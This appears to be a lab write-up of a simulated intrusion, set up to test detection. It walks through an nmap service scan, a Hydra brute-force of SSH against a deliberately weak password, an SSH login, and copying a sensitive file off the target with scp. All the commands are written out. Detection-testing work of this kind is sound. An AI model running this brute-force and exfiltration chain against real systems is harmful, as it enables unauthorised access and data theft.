




For the purpose of this simulation, the target endpoint was configured with a weak password to replicate a common real-world misconfiguration. SSH was enabled to provide a remote attack surface.
The credentials below are intentionally weak and used solely to simulate a misconfigured production environment for detection testing purposes.
| Setting | Value |
|---|---|
| Username | target |
| Password | 12345678 |
| Service | SSH (port 22) |
Nmap was used to perform service discovery on the target endpoint to identify open ports and running services:
nmap -sV <target-ip>
The scan revealed port 22 (SSH) open and running OpenSSH 10.0p2 —
confirming a viable attack surface for credential brute force.

Following reconnaissance, a credential brute force attack was conducted against the SSH service using Hydra with a custom username and password wordlist:
hydra -L users.txt -P passwords.txt <target-ip> ssh -t 1 -W 3 -v
| Flag | Purpose |
|---|---|
| -L users.txt | Username wordlist |
| -P passwords.txt | Password wordlist |
| ssh | Target protocol |
| -t 1 | Single thread to avoid connection reset |
| -W 3 | 3 second delay between attempts |
Hydra successfully identified valid credentials:
| Field | Value |
|---|---|
| Host | <target-ip> |
| Username | target |
| Password | 12345678 |

Using the credentials obtained from the brute force attack, an SSH connection was established to the target endpoint:
ssh target@<target-ip>
Authentication was completed using the discovered password, resulting in successful remote access to the target system.
SSH session established — attacker now has an interactive shell on the victim machine.

A sensitive data file was identified on the target system. Using the established SSH access, the file was exfiltrated to the attacker machine via SCP:
scp target@<target-ip>:/home/target/sensitive_data.txt .
The file was successfully transferred to the attacker machine, confirming full data exfiltration.
sensitive_data.txt transferred at 100% — exfiltration complete.
All attack phases concluded successfully.
